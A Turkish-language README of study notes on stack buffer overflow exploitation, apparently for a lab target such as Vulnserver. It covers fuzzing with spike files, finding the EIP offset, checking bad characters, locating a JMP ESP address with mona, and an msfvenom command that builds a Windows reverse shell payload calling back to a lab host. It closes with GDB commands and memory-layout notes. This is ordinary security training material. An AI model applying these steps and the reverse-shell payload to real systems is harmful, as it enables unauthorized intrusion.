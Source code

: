 # Buffer-Overflow-Notes
1 -  İlk önce kali üzerinde bulunan <b>generic_send_tcp</b> komutunu kullanarak ve bir spike dosyası oluşturarak, hizmetteki herhangi bir komutta buffer overflow olup olmadığını kontrol edecek  bir istek gönderiyoruz.

"generic_send_tcp" Kali'de buffer overflow fuzzing için kullanılır. Sunucular içindir ve bir <b>"spike"</b> dosyasına ihtiyaç duyar. 

Spike dosyası kod listesidir. Programın hangi komut veya instruction üzerine fuzzing deneyeceğini belirlemek için yazılır. Basit bir dildir.<br>
Örneğin:<br>
```
s_readline();
s_string("STATS ");
s_string_variable("A");
```
Örnek komut:
```
generic_send_tcp 10.0.2.15 9999 fuzz.spk 0 0
```
Sunucu çöktükten ve çöktüğüne emin olduktan sonra nerde çökertebildiğimizi bulabilmek için <b>Manual Fuzzing</b> yapmamız gerekmekte.
1. Adım için paylaştığım kodu düzenleyip çalıştırdıktan sonra sunucu çöktüğünde CTRL+C yapıyoruz. Ve bize "<b>tahminen</b>" nerede çöktüğünü gösteriyor. Değerleri kod içerisinde sürekli 100 ile arttırdığımız için kesin bir yer bulması mümkün değil. Bunun için bir sonraki adıma geçiyoruz.

NOT: TRUN'dan sonraki dize paket debugger'de izlenerek bulunmuştur.

NOT: TRUN bu sunucuya özeldir.

2 <b>-/usr/share/metasploit-framework/tools/exploit/pattern_create.rb</b> -> Fuzzing ile kaç karakterde çöktüğünü bulduktan sonra o değere yakın bir değerde pattern üretmek için.

Çöken değere yakın bir değer ile bir pattern üretiyoruz.  Eğer 2300de çöktüysek,
```
./pattern_create.rb -l 2500
```
Pattern'i 2. adımdaki kod ile gönderiyoruz.  Sunucu çöktükten sonra, Debugger üzerinde EIP'ye yazılan karakterlerin hex değerlerini not ediyoruz.

3 -```└─# ./pattern_offset.rb -l 2500 -q 386F4337```
"-l" değeri payload'ın uzunluğu, "-q" değeri EIP'ye yazılan değer.

Çıktıdan kaçıncı karakterde çöktüğünün bilgisini alıyoruz.

4 - Test: Paylaştığım kodda, çökerten karakter sayısı kadar "A", ve cidden yazılıp yazılmadığını denemek için 4 adet "B" gönderiyoruz. Hexadecimal üzerinde "42" olarak ifade edilen B değerinin Debugger'da EIP değerine yazıldığını görüyoruz.

5 - Test 2 - Bad Chars: Sunucunun okuyamadığı veya engellediği herhangi bir "bad character" olup olmadığını öğrenmek için, ekte paylaştığım kodu kullanıyoruz. Debugger üzerinden ESP'yi dump edip HEX sırasını takip ve kontrol ettiğimizde bir bozulma olmadığına emin olmamız gerekiyor. Bozulma olan karakterler "bad characters" olarak not edilir.

6- Exploit Plan: 
6.1.: EIP'de bizim enjekte etmeye çalıştığımız shellkoda nasıl yönlendirme yapabiliriz, kodumuzu nasıl yerleştirebiliriz, bunun için bir aratma yapmamız gerekiyor. Bir gerçek hayat senaryosunda birden çok seçenek denememiz gerekebilir. Genelde "JMP ESP" kullanılır. Atlama yapmaya yarar.

Kaynak: <a href="https://www.abatchy.com/2017/05/jumping-to-shellcode.html">shellcode jumping</a>

6.1.1: Metasploit içerisinde bulunan nasm_shell.rb ile kodumuzu assembly'e çevirmemiz gerekiyor.
```
└─# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb 
nasm > JMP ESP
00000000  FFE4              jmp esp
nasm > 
```
"FFE4" değerini not ediyoruz.

6.1.2: Ben Immunity Debugger kullanmayı tercih ediyorum, Immunity için "Mona" adlı bir plugine ihtiyacımız olacak. Kurduktan ve sunucuyu çalıştırıp "Attach" ettikten sonra, bize kullanılan tüm modülleri ve bu modüllerin okuma/yazma'ya karşı korumalı olup olmadığını göstermesi için ```!mona modules``` komutunu Immunity üzerinden çalıştırıyoruz. 

Bu kısımda memory write koruması kapalı modüllerden birini seçiyoruz. Bu bizim senaryomuzda "essfunc.dll"

![image](https://user-images.githubusercontent.com/88983987/215236883-8aebe4f1-8e1b-459c-906e-982b449eeace.png)

Bu modül üzerinde yazma koruması yok. Bu modül üzerinde exploit çalıştırabiliriz. Modül içerisinde yazma yapabileceğimiz "JMP ESP" komutunu aratmamız gerekiyor. "nasm_shell" ile dönüştürdüğümüz kodu hex formatına dönüştürüp modül içerisinde aratıyoruz.
```
!mona find -s "\xff\xe4" -m essfunc.dll
```
"JMP ESP" işlemi çalıştırılan memory adress'leri not alıp tek tek deniyoruz. Bizim senaryomuzda çalışan memory adress: 0x625011AF

7. Exploit:

Exploit için öncelilkle bir reverse shell koduna ihtiyacımız var.
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.4 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"
```
"-p": Payload Türü
"LHOST": Geri Dönüş Sağlanacak Sunucu
"LPORT": Geri Dönüş Sağlanacak Sunucunun Portu
"EXITFUNC": Thread Process
"-f": C dilinde derlenmesi
"-a": Architecture
"-b": Bad Characters

# GDB
```
● disassemble main - look at the assembly code of the main function
 ● break *0x12345678 - set a breakpoint at address 0x12345678
 ● x 0x12345678 - examine/print the content of address 0x12345678
 ● x/xw 0x12345678 - print the content of address 0x12345678 as hex word
 ● x/s 0x12345678 - print the content of address 0x12345678 as a string
 ● run - run/restart the program you are debugging
 ● continue - continue execution after you stopped at a breakpoint
 ● quit - exit gdb
 ```
 
# General
HEAP

STACK
Yerel değişkenler, fonksiyonlar içerisinde yapılan işlemler kaydedilir. Ram kaç GB olursa olsun, işletim sisteminin mimarisine göre belirli bir yer ayrılır. Stack bu limiti aşamaz. 

DATA
Global değişkenler ve statik değişkenler kaydedilir. Yaşam döngüsüne bağlı kalmayan değişkenlerdir.

TEXT
Assembly Instructions

int x; -> Local Değişken, Stack
int *y;
(int*)malloc(sizeof(int)); -> Heapte bir yer aç ve adres ata. Stack içerisinde sadece adresi tutulur. malloc yer ayırma fonksiyonudur. sizeof int'in boyutunu alır ve malloc ile int'in boyutu kadar bir yer ayırır.

Extended Stack Pointer
Buffer
Extended Base Pointer
Extended Instruction Pointer -> SCOPE
